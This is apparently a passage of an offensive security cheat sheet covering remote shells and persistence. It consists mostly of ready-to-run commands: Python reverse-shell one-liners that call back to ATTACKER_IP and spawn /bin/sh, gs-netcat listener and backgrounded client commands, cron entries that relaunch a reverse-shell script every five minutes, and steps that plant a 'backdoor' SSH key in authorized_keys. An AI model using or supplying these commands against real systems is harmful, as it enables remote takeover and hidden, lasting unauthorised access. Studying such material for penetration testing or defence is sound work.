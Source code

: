 ### Python Reverse Shells
```python
# Python reverse shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# Python3 version
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Gsocket Commands
```bash
# Server (listener)
gs-netcat -l -s "secret_key"

# Client (connect)
gs-netcat -c -s "secret_key" -i

# Background connection
nohup gs-netcat -c -s "secret_key" -i &
```

## 🔒 Persistence Commands

### Cron Jobs
```bash
# Every 5 minutes
echo "*/5 * * * * /usr/bin/reverse_shell.sh" | crontab -

# Daily at 3 AM
echo "0 3 * * * /usr/local/bin/maintenance.sh" | crontab -

# List cron jobs
crontab -l
```

### SSH Keys
```bash
# Generate SSH key
ssh-keygen -t rsa -b 4096 -f ~/.ssh/backdoor_key -N ""

# Add public key
echo "ssh-rsa AAAAB3NzaC1yc2E... user@host" >> ~/.ssh/authorized_keys

# Set permissions
chmod 600 ~/.ssh/authorized_keys
chmod 700 ~/.ssh
```
